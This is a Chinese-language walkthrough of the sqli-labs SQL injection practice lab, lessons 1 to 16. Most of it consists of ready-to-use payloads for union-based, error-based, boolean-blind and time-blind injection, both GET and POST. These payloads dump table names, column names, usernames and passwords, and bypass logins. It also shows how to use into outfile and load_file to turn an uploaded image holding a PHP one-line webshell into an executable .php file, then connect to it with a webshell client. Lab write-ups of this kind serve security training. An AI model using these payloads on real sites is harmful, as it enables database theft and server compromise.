




Web
源代码下载地址：https://github.com/Audi-1/sqli-labs
Lesson-1、2
GET-基于错误-单引号-字符型、数字型注入
对于select username,password from table where id = ‘input’的查询语句
使用：
**引号闭合：**id = 1’ and ‘1’ = ‘1
id = ’ or ‘1’ = ‘1
（这里使用or的话，第一个单引号前没有数字，因为如果有数字的话，浏览器直接读取id=XX的页面，后面的语句就没有作用了）
**注释–：**id = 1’ and 1=1 --+
（这里的注释符–后面需要添加空格才生效，为了避免遗漏，使用+代替空格）
id = ’ or 1=1 --+
字符型：
先用1=1和1=2判断
?id=’ or 1=1–+
?id=’ or 1=2–+
匹配字段
'or 1=1 order by 1 ok
'or 1=1 order by 2 ok
'or 1=1 order by 3 ok
'or 1=1 order by 4 no
可以判断是3个字段
爆字段
'or 1=2 union select 1,2,3–+
利用内置函数爆出数据库的信息
爆出数据库的版本信息和数据库信息
'or 1=2 union select 1,@@version,database()–+
数字型：
?id=1 and 1=1 显示正常
?id=1 and 1=2 显示异常
爆字段长度：
?id=1 order by 3 显示正常
?id=1 order by 4 显示异常
可以判断字段的长度是3
匹配字段：
?id=1 and 1=1 union select 1,2,3
爆字段位置
?id=1 and 1=2 union select 1,2,3
爆出数据库的版本信息和数据库信息
?id=1 and 1=2 union select 1,database(),user()
查看这两关的index.php，可以看到如下php语句。
1 | // take the variables |
Lesson-3
GET-基于错误-单引号变形-字符型
查看index.php发现如下sql语句：
sql="SELECT \* FROM users WHERE id=('id’) LIMIT 0,1";
对于select username,password from table where id = (‘input’)的查询语句
注：这里通过返回的错误信息猜测。
使用同上面相似的方法：
id = 1’) and (‘1’ = ‘1
id = 1’) and 1=1 --+
注：经常能在返回的错误信息中看到*** LIMIT 0,1
mysql支持limit：
select * from tablename limit 0,1
即取出第一条记录。
select * from tablename limit 1,1
第二条记录
select * from tablename limit 10,20
从第11条到31条（共计20条）
Lesson-4 （常规爆破流程）
GET-基于错误-双引号-字符型
查看index.php中的php代码发现：
$id = ‘"’ . $id . ‘"’;
sql="SELECT \* FROM users WHERE id=(id) LIMIT 0,1";
可以发现$id被一层单引号、双引号、小括号包围。
构造注入语句：
?id=") or 1=1 --+ 或者 ?id=’") or 1=1 --+
?id=1”)and 1=1 --+ 或者 ?id=1’”)and 1=1 --+

接下来使用mysql控制台查看里面的数据库信息。
其中security是我们sqli labs的数据库，另外information_schema称为数据库的数据库，其中装着一些数据库自身的信息。比如数据库中有哪些表，哪些字段等。接下来我们使用information_schema数据库查看security数据库的敏感信息。
构造如下语句，便能够返回security数据库中的表名。
返回前台实行注入。首先使用前面的order by方法判断有3个字段并爆出字段位置。
使用union联合查询语句如下所示：
1 | ?id=”) union select 1,table_name,3 from information_schema.tables where table_schema=’security’ --+ |
如下图所示，爆出其中一个表名。如果要把所有表名爆出来，可以使用group_concat()方法。
1 | ?id=”) union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=’security’ --+ |

构造如下语句获得users表下的字段名：
1 | ?id=”) union select 1,group_concat(column_name),3 from information_schema.columns where table_name=’users’ --+ |
爆出username和password字段中的内容：
1 | ?id=”) union select group_concat(id),group_concat(username),group_concat(password) from users --+ |
Lesson-5、6 (报错注入payload)
GET-双重注入-单引号、双引号-字符型
这两关查看其index.php代码都能发现：
1 | $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1"; |
就算构造合适的注入语句返回的将是给定字符串：You are in…
要学会基于错误的sql语句构造方法。
重要函数：
count() 统计元组个数
rand() 用于产生一个0~1的随机数
floor() 向下取整
group by 依据我们想要的规则对结果进行分组
在URL上构造如下语句：
1 | 1' and (select 1 from(select count(*),concat(0x3a,database(),0x3a,floor(rand()*2))name from information_schema.tables group by name)b) --+ |
其中0x3a是冒号的16进制表示，b可用任何字符表示，是一个化名。输入构造语句后需要不断刷新。
通过将database()位置的函数用复杂的查询语句代替，就能爆出更多信息。
1 | (select table_name from information_schema.tables where table_schema=database() limit 0,1) |
通过修改limit为1，1；2，1就能爆出所有表名。
第六关相似，把单引号改为双引号即可。
这是mysql的bug，具体可参考：
http://bugs.mysql.com/bug.php?id=32249
Lesson-7
GET-输出outfile-字符型
MySQL中，可以使用select…into outfile语句将表的内容导出为一个文本文件，基本语法格式如下：
select [列名] from table [where 语句] into outfile ‘目标文件’ [options]
注：dumpfile用于将表的内容导出为一个文本文件，一次仅仅导出一行。
load_file用于将数据导入mysql。
打开mysql命令行终端，将users表下的列数输出到E盘下的1.txt文件中。操作发现，目标文件目录的正反斜杠输出效果相同。如下图所示。
使用dumpfile时，需要在查询语句前添加limit 0,1的字段。如下图所示。
查看第七关源代码。发现提交的值被两对小括号和一对引号包围。并且，正确或错误的输出都返回固定的信息。
使用order by判断字段得到3个字段，使用权限测试语句：
1 | and (select count(*) from mysql.user)>0 --+ |
返回页面正常，说明有权限使用outfile等语句。
接下来将用outfile语句将某个字段的信息导出到网站根目录下。这里导出的是id=1的字段。如下图所示。

通过修改id的值可以依次导出字段的值。
注意
这里介绍了一个使用outfile和load_file上传木马文件的例子。某些应用只允许上传指定格式的文件，假设我这里已经在网站根目录下成功上传了一个jpg文件，其内容是一个php一句话木马。如下图所示。
使用如下命令将1.jpg转换为1.php:
1 | ?id=1'))union select 1,load_file('D:/wamp/www/sqli-labs-master/Less-7/1.jpg'),3 into outfile 'D:/wamp/www/sqli-labs-master/Less-7/1.php'--+ |
再使用菜刀进行连接即可。
Lesson-8
GET-盲注-布尔型-单引号-字符型
这一关主要是和盲注有关。
盲注是注入的一种，表示在不知道数据库具体的返回值的情况下对数据库中的内容进行猜解，实施sql注入。一般分为基于布尔和基于时间类型的盲注。
这一关是基于布尔的盲注。Web页面的返回值只有两种，true或者false。我们只能通过测试输入的注入语句为true或false来判断注入效果，并通过这两种可能一步步得到数据库的信息。查看源代码能够发现这是一个布尔型盲注。
使用ascii(),substr()两个函数在前端判断网站使用的数据库名的第一个字符的ascii：
1 | ?id=1' and (ascii(substr(database(),1,1)))>100--+ |
这句查询语句的意思就是逐个爆出当前数据库名的字符。通过使用将每个字符转换为ascii对应的数字，通过比较大小确定，通过网页返回的true或者false页面，最终确定该字符。
最后判断到当前数据库的第一个字符对应的ascii为115。查看ascii对照表知为s，这正是security数据库的第一个字符，其余字符类推。
同样也可以在substr()函数里添加复杂的查询语句。
如查询第一个表名的首字母：
1 | ?id=1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))>100--+ |
经查询，当=101时，页面返回正常，可知该字符为e。这与事实相符。

如查询users表里第一个字段的首字母：
1 | ?id=1' and (ascii(substr((select column_name from information_schema.columns where table_name=’users’ limit 0,1),1,1)))>100--+ |
都是同理的。
Lesson-9、10
GET-盲注-时间型-单引号、双引号
当web页面的返回值只有一种，true时，无论我们输入任何值，其返回情况都会按照正确的处理。如果加入特定的时间函数，通过查看web页面的响应时间差来判断注入语句是否正确，一次得出数据库信息。
这里需要用到两个函数：
sleep(n):执行将程序挂起一段时间n，其中n单位为秒。
if(expr1,expr2,expr3):判断语句，expr1成立则返回expr2，否则返回expr3。
查看php源代码，如下。可知无论输入什么数值，页面都将返回相同的信息。
首先在URL上输入下面的语句判断数据库中的查询语句构造形式。
?id=1 and (select sleep(5)) --+
就是说，如果前面的id=1的形式正确，那么后面的语句也将会被正确执行，页面将会在5秒后响应。经测试发现，页面立即刷新，说明前面的语句有问题。添加单引号如下：
?id=1’ and (select sleep(5)) --+
此时如下图所示。页面在5秒后加载。
然后就能通过这种时间差，判断数据库信息。比如结合上一关的盲注知识，可构造如下语句：
?id=1’ and (select if(ascii(substr(database(),1,1))>100,sleep(5),NULL))–+
如果前面数据库的首字母的ascii值大于100，那么就会加载5秒，否则就立即刷新。这与之前基于布尔型的盲注所对应的true或false有异曲同工之妙。
因为数据库的首字母为s，对应的ascii值为115，因此如下图所示。
同样是将上述语句中的database()修改为更复杂的语句。可参考上一关。
双引号的基于时间类型的盲注与单引号同理。
Lesson-11、12
POST-基于错误-单引号、双引号-字符型
第十一关的主页面如下，可猜测后台的数据库查询语句类似于：
select username,password from table where username=inputname and password=inputpass
在firefox的hackbar下使能post传参。在uname参数后添加单引号，页面返回如下提示信息。
将passwd的参数值改为空。又返回提示信息如下。
由此，可以判断，后台的数据库查询语句的正确形式应该是：
select username,password from table where username=’inputname’ and password=’inputpass’
然后构造注入语句：1’ or 1=1 #
可以添加limit 0,1或者limit 1,1等进行用户名与密码的遍历：1’ or 1=1 limit 0,1 #
如下图所示。
这里先判断字段数目。可以发现有两个字段。
爆字段。

爆当前数据库表名。
爆users表的字段名。
爆出用户名和密码。

第十二关和第十一关的区别，主要是将单引号改成双引号即可。
最后贴上几个万能密码。
Lesson-13、14（常用系统函数和变量）
POST-双重注入-单引号-字符型
在表单中提交admin，admin时会发现，页面虽然会返回login success的提示，但却不像上一关那样同时返回用户名和密码的信息。因此不能通过页面返回的信息获取数据库内容。就需要使用和GET传参相同的二次注入的方法，构造出错的语句。
Mysql数据库中的information_schema库的内容和Mysql中常见的系统及变量。
第一步还是要判断数据库查询语句的结构，在Username中填写123’，在Password中留空，根据提示可知，查询语句的结构为：
select username,password from table where username=(’inputname’) and password=(’inputpass’)
在firefox中构造如下post语句并提交。
uname=123’) and (select 1 from(select count(*),concat("",database(),"",floor(rand()*2))name from information_schema.tables group by name)b)#&passwd=admin&submit=Submit
没有注入成功，但是掌握这个思想就好。然后就是将database()位置的内容用更复杂的语句替代，爆出更多信息。
第十四关其实就是把单引号和小括号的组合修改为双引号了。同理。
Lesson-15
POST-盲注-布尔型-单引号
这里的注入方法和Lesson-8相似。这里不作赘述，仅仅贴出几张视频截图。静静体会。
这里有一点需要提一下，就是这里的连接符使用的是“or”而不是“and”。因为前面的uname里的值是不对的，如果用and的话整个语句就为假了。所以这里需要用or。
Lesson-16
POST-盲注-时间型-双引号，括号
这一关同样可以使用基于布尔型的盲注，但是这里演示在POST方式下的基于时间型的盲注，这里由于sleep()函数的一个小bug导致查询语句为真时页面响应的时间与sleep()函数设置的时间不同。但这并不影响我们对语句正确与否的判断，只要有响应时延，那么就说明语句正确。
如下图所示。
这里同样需要注意使用or来连接。
这里在POST中使用如下语句判断当前数据库的第一个字母的ascii：
uname=123”) or (select if(ascii(substr(database(),1,1))>100,sleep(5),NULL))#
接下来表名和列名的盲注语句可参考Lesson-8。
我在这里查询users表下的第一个字段名的首字母：
uname=123") or (select if(ascii(substr((select username from users limit 0,1),1,1))<100,sleep(5),NULL))#
该首字母事实上为D，对应的ascii为68，是小于100的。

sleep()函数返回的值是0，如下图所示。